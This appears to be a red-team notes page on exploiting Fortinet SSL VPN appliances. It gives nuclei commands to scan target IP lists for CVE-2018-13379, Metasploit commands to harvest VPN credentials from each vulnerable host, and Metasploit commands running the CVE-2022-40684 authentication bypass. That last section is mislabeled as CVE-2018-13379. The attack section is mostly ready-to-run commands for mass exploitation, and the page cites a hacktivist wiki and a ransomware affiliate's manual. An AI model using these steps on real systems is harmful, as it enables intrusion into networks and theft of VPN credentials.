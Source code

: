 # Fortinet

## 01 - CVE

### 1.1 - CVE-2018-13379

To find targets

Use nuclei to scan for vulnerable devices and remove false positives.

```
$ nuclei -l target_ips.txt -t ~/nuclei-templates -id CVE-2018-13379 -o fortinet-vulnerable-applances-output.txt
```

Then exploit it with `metasploit-framework` auxiliary module.

```
msf > use auxiliary/gather/fortios_vpnssl_traversal_creds_leak

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set rhosts file:fortinet-vulnerable-applances-output.txt

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > set rport 10443

msf auxiliary(gather/fortios_vpnssl_traversal_creds_leak) > run
```

### 1.2 - CVE-2018-13379

```
msf > use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > set rhosts file:10443_ips.txt

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > set rport 10443

msf exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > check
```

## 02 - Bruteforce

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Online/Network Protocols/Remote Services/VPN/VPN Appliances/Fortinet|section]] for bruteforcing Fortinet VPN appliance.

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x01 - Components with Known Vulnerabilities/Helpers/Dorks/Google Dorks/Internet of Things/VPN Appliances|Google Dork: VPN Appliances]]

- [7Elements: Fortigate](https://github.com/7Elements/Fortigate)

- [Enlace Hacktivista: Fortinet SSL VPN Path Traversal](https://enlacehacktivista.org/index.php?title=Fortinet_SSL_VPN_Path_Traversal)

- [VX Underground Papers: Bassterloard (FishEye) Networking Manual](https://web.archive.org/web/20230531145531/https://papers.vx-underground.org/papers/Malware%20Defense/Malware%20Analysis%202021/2021-08-31%20-%20Bassterlord%20%28FishEye%29%20Networking%20Manual%20%28X%29.pdf)